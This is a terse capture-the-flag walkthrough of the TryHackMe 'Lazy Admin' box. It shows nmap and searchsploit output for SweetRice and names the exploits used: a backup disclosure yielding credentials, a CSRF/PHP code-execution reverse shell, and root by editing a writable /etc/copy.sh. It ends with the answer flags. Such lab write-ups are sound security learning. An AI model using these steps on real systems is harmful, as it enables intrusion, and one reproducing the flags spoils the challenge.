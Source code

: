# Lazy Admin

export IP=10.10.140.218

nmap -sC -sV -oN nmap/initial 10.10.140.218

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

gobuster located

```
/content

```
Searchsploit

```
searchsploit SweetRice

returned

 Exploit Title                                                                                   |  Path
------------------------------------------------------------------------------------------------- -----------------------
SweetRice 0.5.3 - Remote File Inclusion                                                          | php/webapps/10246.txt
SweetRice 0.6.7 - Multiple Vulnerabilities                                                       | php/webapps/15413.txt
SweetRice 1.5.1 - Arbitrary File Download                                                        | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                                                          | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure                                                              | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                                                     | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution                                | php/webapps/40700.html
SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Upload                                            | php/webapps/14184.txt
------------------------------------------------------------------------------------------------- -----------------------

```
SweetRice 1.5.1 - Backup Disclosure  ----- Worked
```
Username and password ---- manager - Password123

```
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution  ---- Worked


Reverse Shell obtained

Flag found in home
sudo -l
```
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
ls -l /etc/copy.sh ------- is writable!
```
-rw-r--rwx 1 root root 5 oct 19 19:24 /etc/copy.sh

```
/etc/copy.sh  ---- modified to run bash
Privilage escalated to root
Flag found root's home


#1 What is the user flag?

```
THM{63e5bce9271952aad1113b6f1ac28a07}
```

#2 What is the root flag?

```
THM{6637f41d0177b6f37cb20d775124699f}
```
